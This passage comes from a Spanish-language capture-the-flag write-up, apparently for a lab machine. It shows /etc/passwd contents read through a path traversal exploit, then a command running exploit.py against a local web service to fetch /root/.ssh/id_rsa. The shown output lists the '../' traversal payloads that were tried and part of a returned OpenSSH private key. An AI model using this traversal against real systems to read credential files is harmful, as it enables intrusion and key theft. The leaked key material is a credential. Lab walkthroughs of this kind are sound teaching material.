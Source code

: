 ```
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false

Exploit complete
```

Y por lo que vemos funciona, por lo que probaremos a hacer lo siguiente:

```shell
python3 exploit.py -u http://localhost:8080 -f /root/.ssh/id_rsa -d /assets 
```

Info:

```
[+] Attempt 0
                    Payload: /assets/../root/.ssh/id_rsa
        
                    Status code: 404
[+] Attempt 1
                    Payload: /assets/../../root/.ssh/id_rsa
        
                    Status code: 404
[+] Attempt 2
                    Payload: /assets/../../../root/.ssh/id_rsa
        
                    Status code: 200
Respose: 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU
UbnmTGaPeW4evLeehnYFQleaC9u//vciBLNOWGqeg6Kjsq2lVRkAvwK2suJSTtVZ8qGi1v
j0wO69QoWrHERaRqmTzranVyYAdTmiXlGqUyiy0I7GVYqhv/QC7jt6For4PMAjcT0ED3Gk
HVJONbz2eav5aFJcOvsCG1aC93Le5R43Wgwo7kHPlfM5DjSDRqmBxZpaLpWK3HwCKYITbo
DfYsOMY0zyI0k5yLl1s685qJIYJHmin9HZBmDIwS7e2riTHhNbt2naHxd0WkJ8PUTgXuV2
UOljWP/TVPTkM5byav5bzhIwxhtdTy02DWjqFQn2kaQ8xe9X+Ymrf2wK8C4ezAycvlf3Iv
ATj++Xrpmmh9uR1HdS1XvD7glEFqNbYo3Q/OhiMto1JFqgWugeHm715yDnB3A+og4SFzrE
```